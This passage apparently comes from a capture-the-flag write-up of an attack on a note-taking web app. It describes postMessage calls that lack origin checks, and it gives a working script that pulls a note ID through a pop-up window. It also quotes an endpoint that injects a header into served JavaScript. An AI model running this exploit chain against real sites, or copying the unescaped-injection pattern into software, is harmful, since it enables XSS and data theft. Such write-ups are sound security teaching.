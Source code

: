 All these ```postMessage``` communications lacked origin verification and were sent to ```*```, making them vulnerable to exploitation. I quickly wrote a script to open the ```/protected-note``` route in a pop-up, registered a message event listener, and sent a ```postMessage``` request with an empty password. Since the first note had no password set, it matched successfully and returned the note ID to me.

At this point, I had everything I needed: I could inject the XSS payload via CSRF and retrieve the note ID from the ```/protected-note``` endpoint through ```postMessage``` to execute the XSS.

```js
var win = window.open(url + "/protected-note", "child");

function logMessage(event) {
  if (event.data.noteId) {
    console.log(event.data.noteId);
  }
}

setTimeout(() => {
  win.postMessage({ type: "submitPassword", password: "" }, "*");
}, 3000);

addEventListener("message", logMessage);
```

While analyzing the source code, I discovered an endpoint ```/api/track``` that was vulnerable to JavaScript injection through the ```x-user-ip``` header. At this point, I was fairly certain that this had something to do with caching.

```js
export default async function handler(req, res) {
    const { method } = req
    res.setHeader('Content-Type', 'text/javascript')
    switch (method) {
        case 'GET':
            try {
                const userIp = req.headers['x-user-ip'] || '0.0.0.0'
                const jsContent = `
$(document).ready(function() {
    const userDetails = {
        ip: "${userIp}",
        type: "client",
        timestamp: new Date().toISOString(),
        ipDetails: {}
    };
    window.ipAnalytics = {
        track: function() {
            return {
                ip: userDetails.ip,
                timestamp: new Date().toISOString(),
                type: userDetails.type,
                ipDetails: userDetails.ipDetails
            };
        }
    };
});`
                if (userIp !== '0.0.0.0') {
                    return res.status(200).send(jsContent)
                } else {
                    return res.status(200).send('');
                }
            } catch (error) {
                console.error('Error:', error)
                return res.status(500).send('Error')
            }
        default:
```